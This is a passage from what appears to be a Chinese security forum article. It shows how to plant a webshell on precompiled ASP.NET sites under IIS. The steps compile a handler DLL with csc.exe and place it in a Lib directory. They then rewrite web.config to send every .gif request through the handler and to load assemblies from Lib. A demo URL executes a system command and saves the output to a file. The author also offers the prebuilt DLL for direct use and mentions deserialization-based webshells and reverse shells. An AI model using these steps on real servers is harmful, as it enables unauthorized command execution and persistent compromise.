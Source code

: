 再在命令行下用csc.exe 生成 IsapiModules.Handler.dll ，生成 DLL 的命令如下

```php
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\IsapiModules.Handler.dll C:\inetpub\wwwroot\IsapiModules.Handler.cs
```

将生成的 IsapiModules.Handler.dll 上传到当前目录Lib下，做到这步已经完成了GetShell链路的第1部分，笔者已经将这个DLL打包好了，师傅们可以直接拿去用即可。

#### 4.3.2 改造WebConfig

在站点根目录下的Web.config文件新增handlers/httpHandlers节点，由于笔者当前的环境是IIS10，所以选择在&lt;handlers&gt;标签内添加映射关系，一切URL请求带 .gif的都从 IsapiModules.Handler 经过，配置详情如下

```php
<system.webServer>
  <handlers accessPolicy="Read, Script, Write">
    <add name="PageHandlerFactory ISAPI 2.0 32" path="*.gif" verb="*" type="IsapiModules.Handler,IsapiModules.Handler" preCondition="integratedMode" resourceType="Unspecified"/>
  </handlers>
</system.webServer>
```

但做到这里还不够，因为这样IIS只会去bin目录下寻找IsapiModules.Handler.dll文件，找不到就会抛出异常，可我们上传的dll位于Lib目录下，所以还需要增加一处配置，用于探索指定目录下的程序集并自动加载，如下

```php
<configuration>  
   <runtime>  
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">  
         <probing privatePath="Lib"/>  
      </assemblyBinding>  
   </runtime>  
</configuration>
```

这样配置后就可以实现具备读写根目录web.config文件，且上传文件不跨越目录的情况下完成GetShell，演示 [http://localhost/anywhere.gif?a=c&amp;p=cmd.txt&amp;c=ver](http://localhost/anywhere.gif?a=c&p=cmd.txt&c=ver) 命令执行后将结果保存到cmd.txt文件，如图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-2b181a8a593f6c3af690196badf4745c7aeb356b.png)

另外还可以在Lib目录里同时上传web.config文件和IsapiModules.Handler.dll，但可惜的是在子目录下的web.config文件里配置 &lt;probing privatePath="Lib"/&gt; 这样的扫描探索选项并不生效，导致还是需要在根目录的web.config里配置才可以正常运行，也许是我测试环境有限，后续有时间会继续研究有兴趣的师傅可以自己手工尝试下，演示地址改成 [http://localhost/Lib/any.gif?a=c&amp;p=cmd.txt&amp;c=ver](http://localhost/Lib/any.gif?a=c&p=cmd.txt&c=ver) ，将会在Lib目录下生成cmd.txt

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-df53d2772ada1bda09a6c15bbc48f5ead3447a94.png)

0X05 结语
-------

最后预编译还有一些方法比如利用反序列化写入GhostWebshell，这种方法也可以绕过预编译的限制，但细细想来既然都可以反序列化了很多情况下可以执行系统命令或者反弹Shell等方式拿下权限，所以这块内容可以归于内存马系列，后续笔者会详细再做介绍，请大伙继续关注文章涉及的PDF和Demo已打包发布在星球，请大伙关注dotNet安全矩阵公众号，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。